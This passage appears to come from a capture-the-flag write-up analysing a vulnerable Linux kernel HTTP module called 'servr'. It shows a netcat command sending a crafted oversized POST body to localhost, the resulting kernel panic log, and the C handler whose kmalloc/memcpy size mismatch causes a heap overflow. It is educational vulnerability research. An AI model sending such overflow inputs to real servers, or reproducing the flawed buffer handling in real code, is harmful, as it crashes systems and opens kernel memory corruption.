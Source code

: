 
What's more interesting, sending a correct request we sometimes get kernel to panic!

```console
$ echo -ne "POST aaa HTTP/1.0\r\nContent-type: plain/text\r\nContent-Length:70
\r\n\r\naaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaara" 
| nc 127.0.0.1 80
[  312.996817] general protection fault: 0000 [#1] SMP 
[  312.997909] Modules linked in: servr(O)
[  312.998319] CPU 0 
[  312.998759] Pid: 846, comm: sh Tainted: G           O 3.8.7 #35 QEMU Standard PC (i440FX + PIIX, 1996)
[  312.999385] RIP: 0010:[<ffffffff811128ee>]  [<ffffffff811128ee>] anon_vma_clone+0x4e/0x130
[  313.000568] RSP: 0018:ffff880002f01d40  EFLAGS: 00000286
[  313.000859] RAX: ffff880002f9ccc0 RBX: ffff880002f9e7e8 RCX: 0000000000003653
[  313.001297] RDX: 0000000000000040 RSI: 0000000000000200 RDI: ffff880003801700
[  313.001703] RBP: ffff880002f01d80 R08: 0000000000015420 R09: 0000000000400000
[  313.002149] R10: ffff8800032536f0 R11: 0000000000000000 R12: ffff880002f9c800
[  313.002542] R13: 0000000000000000 R14: ffff880002f9ccc0 R15: 6161616461616163
[  313.002879] FS:  0000000000000000(0000) GS:ffff880003c00000(0000) knlGS:00000
```

I've looked back into code and I saw that when request is successfully parsed, the `finish_handle_request` is invoked:

```c
#define ERROR_RESPONSE "HTTP/1.1 200 OK\r\n"          \
                       "Server: servr/1.0\r\n"        \
                       "Content-type: text/plain\r\n" \
                       "\r\n"                         \
                       "400 Invalid Request"
#define VALID_RESPONSE_HDR "HTTP/1.1 200 OK\r\n"          \
                           "Server: servr/1.0\r\n"        \
                           "Content-type: text/plain\r\n" \
                           "\r\n"

void finish_handle_request(void *arg)
{
    [...]
    
    if (!arg->content_length)
    {
        /* User has not provided Content-Type header */
        arg->resp = ERROR_RESPONSE;
        arg->resp_len = strlen(ERROR_RESPONSE);
    }
    else
    {
        arg->resp = kmalloc(arg->content_length, GFP_KERNEL); // 1
        strcpy(arg->resp, VALID_RESPONSE_HDR); // 2
        memcpy(&arg->resp[strlen(VALID_RESPONSE_HDR)], arg->req_body_ptr, arg->content_length); // 3
    }
    client_handle_send(arg);
}
```

